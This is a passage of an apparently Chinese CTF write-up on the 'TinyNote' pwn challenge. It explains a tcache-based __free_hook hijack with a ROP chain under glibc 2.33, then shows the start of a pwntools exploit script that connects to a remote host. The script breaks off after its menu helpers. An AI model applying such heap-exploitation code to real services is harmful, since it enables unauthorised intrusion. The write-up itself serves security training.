这里挑选的 `rdx` 值为 `heap+0x40`，因为这个位置及不会影响 `0x20` 的 `tcachebin`，也不会影响后续存放 `ROP` 链，以及最终劫持 `__free_hook` 所需的 `tcache bin`。接下来将这些值一个个插入进去就能够完成构造。

完整 exp：

```bash
#encoding:utf-8
from pwn import *
import re

ip = '82.157.6.175'
port = 24200 
local = 0
filename = './TinyNote'
PREV_INUSE = 0x1
IS_MMAPPED = 0x2
NON_MAIN_ARENA = 0x4

def create_connect():
    global io, elf, libc, libc_name

    elf = ELF(filename)
    context(os=elf.os, arch=elf.arch)

    if local:
        io = process(filename)
        if elf.arch == 'amd64':
            libc_name = '/lib/x86_64-linux-gnu/libc.so.6'
        elif elf.arch == 'i386':
            libc_name = '/lib/i386-linux-gnu/libc.so.6'
    else:
        io = remote(ip, port)
    try:
        libc_name = 'libc-2.33.so'
        libc = ELF(libc_name)
    except:
        pass

cc = lambda : create_connect()
s = lambda x : io.send(x)
sl = lambda x : io.sendline(x)
sla = lambda x, y: io.sendlineafter(x, y)
sa = lambda x, y: io.sendafter(x, y)
g = lambda x: gdb.attach(io, x)

r = lambda : io.recv(timeout=1)
rr = lambda x: io.recv(x, timeout=1)
rl = lambda : io.recvline(keepends=False)
ru = lambda x : io.recvuntil(x)
ra = lambda : io.recvall(timeout=1)
it = lambda : io.interactive()
cl = lambda : io.close()

def add(idx):
    sa(b'Choice:', b'1')
    sa(b'Index:', str(idx).encode())


def edit(idx, content):
    sa(b'Choice:', b'2')
    sa(b'Index:', str(idx).encode())
    sa(b'Content:', content.encode() if isinstance(content, str) else content)

def show(idx):
    sa(b'Choice:', b'3')
```